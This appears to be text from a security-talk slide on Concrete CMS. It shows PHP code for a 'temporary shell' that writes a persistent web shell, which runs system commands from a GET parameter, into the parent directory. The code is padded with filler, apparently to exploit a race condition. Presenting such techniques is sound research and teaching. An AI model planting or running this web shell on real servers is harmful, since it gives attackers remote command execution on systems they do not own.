

Concrete CMS –temporary shell
Temp shell written first which will write a perm shell in the parent dir
<?php
set_time_limit(0);
sleep(35);
echo '<?php file_put_contents("../shell.php","<?phpsystem(\$_GET[c]) ;");';
echo '?>' . str_repeat("A",50000000);
flush();
ob_flush();
?>
Fixing Security pain points